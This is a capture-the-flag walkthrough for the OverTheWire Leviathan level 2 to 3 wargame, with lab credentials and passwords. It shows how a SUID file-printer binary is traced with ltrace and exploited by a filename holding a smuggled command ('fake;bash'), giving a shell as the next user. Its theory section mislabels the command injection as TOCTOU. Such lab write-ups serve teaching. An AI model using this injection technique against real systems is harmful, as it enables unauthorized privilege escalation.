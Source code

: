 # Leviathan Level 2 -> 3

## 🧠 Goal  

Log into Leviathan 2 and find the password for Leviathan 3.  

---

## 🔐 Credentials  

- **Username:** `leviathan2`  
- **Host:** `leviathan.labs.overthewire.org`  
- **Port:** `2223` (SSH)  
- **Password:** `NsN1HwFoyN`  

---

## 🖥️ Commands Used  

```bash
# connect to leviathan2
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
#try to uses SUID premission to access the pass file 
leviathan2@leviathan:~$ ls -l
total 16
-r-sr-x--- 1 leviathan3 leviathan2 15072 Aug 15 13:17 printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x80490ed, 2, 0xffffd444, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                       = -1
puts("You cant have that file..."You cant have that file...
)                                = 27
+++ exited (status 1) +++

leviathan2@leviathan:~$ mktemp -d /tmp/amro.XXX
/tmp/amro.BWn
leviathan2@leviathan:~$ touch /tmp/amro.BWn/test
leviathan2@leviathan:~$ ltrace ./printfile /tmp/amro.BWn/test
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/tmp/amro.BWn/test", 4)                                   = 0
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat /tmp/amro.BWn/test" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```
access("/tmp/amro.BWn/test", 4) = 0 snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27 <br>
geteuid() = 12002 <br> 
geteuid() = 12002 <br>
setreuid(12002, 12002) = 0 <br>
system("/bin/cat /tmp/amro.BWn/test" <no return ...> <br>

listen to me and answer: <br>
access() checks RUID if returns 0 mean that this ruid (leviathan2) have access setreuid(12002,12002) makes both IDs = leviathan3, so the process runs entirely as leviathan3, then system performs the command cat to print the content of the file but the tricks come here the attacker could insert ; in the name of that file lets say "fake;bash" that has gained access before and since ; is command seprator then cat/tmp/amro.BWN/fake will execute or get error it doesn`t matter,then bash command will execute and since i am leviathan 3 now it will open the bash of leviathan3 then i can traverse to the passowrd file

```bash
leviathan2@leviathan:~$ touch /tmp/amro.BWn/"fake;bash"
leviathan2@leviathan:~$ ./printfile /tmp/amro.BWn/"fake;bash"
/bin/cat: /tmp/amro.BWn/fake: Permission denied
leviathan3@leviathan:~$ whoami
leviathan3
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
f0n8h2iWLP

```
___

## 💡 Theory
```bash
TOCTOU (Time Of Check to Time Of Use) vulnerability
access() is a unction in C lybrary
in a normal program , access() is fine
in a SUID program , its dangerous
-> access() checks with the real UID 
-> but the program later opens the file with the effective UID (the up privileged one)
   in our case : RUID : leviathan2
	       : EUID : leviathan3
```

```bash
; in Linux shells
The semicolon (;) is a command separator in shells like bash and sh.
It means: “Run the first command, then run the second command, regardless of whether the first succeeds or fails.”
echo "Hello"; echo "World" 
hello
world
another example :
/bin/cat/fake;bash
"hi i am the fake text"
then -> bash will execute

Key difference from && and ||
; → run both, always.
&& → run second only if first succeeds (exit code = 0).
|| → run second only if first fails (exit code ≠ 0).
```

___

## 📤 Output
```bash
f0n8h2iWLP
```
